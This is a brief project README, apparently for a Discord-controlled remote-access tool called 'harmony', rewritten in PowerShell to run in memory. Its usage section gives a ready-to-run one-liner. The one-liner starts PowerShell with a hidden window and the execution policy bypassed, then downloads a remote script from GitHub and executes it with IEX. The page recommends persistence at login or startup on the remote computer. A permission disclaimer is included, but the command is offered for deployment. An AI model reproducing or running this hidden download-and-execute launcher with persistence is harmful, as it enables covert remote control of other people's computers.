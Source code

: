 A PowerShell rewrite of the original Python code, designed to run directly in memory for greater efficiency. The PowerShell script is approximately 4 KB, significantly smaller than the ~20 MB executable generated by Python Nuitka*. The PowerShell version is also easier to update.

*While the Python code itself is around 3.5 KB, this doesn’t account for the necessary packages, nor does it consider that Python is often not pre-installed on Windows. Nuitka would need to be used to compile the code into an executable for universal compatibility across all supported Windows systems.

### **Usage Instructions:**

To execute the script, run the following command (preferably with persistence for automatic execution, such as a batch file or similar method at login or startup) on the remote computer you own or have permission to use, ensuring you replace the placeholders with your own Discord Bot Token, Server ID, and Webhook URL:

```powershell
powershell -W Hidden -EP Bypass -C "$TOKEN='<YOUR_BOT_TOKEN>';$serverID='<YOUR_SERVER_ID>';$whURL='<YOUR_WEBHOOK_URL>';IEX(IWR'https://raw.githubusercontent.com/olivia1246/harmony/refs/heads/powershell/harmony.ps1'-UseBasicParsing);exit"
```

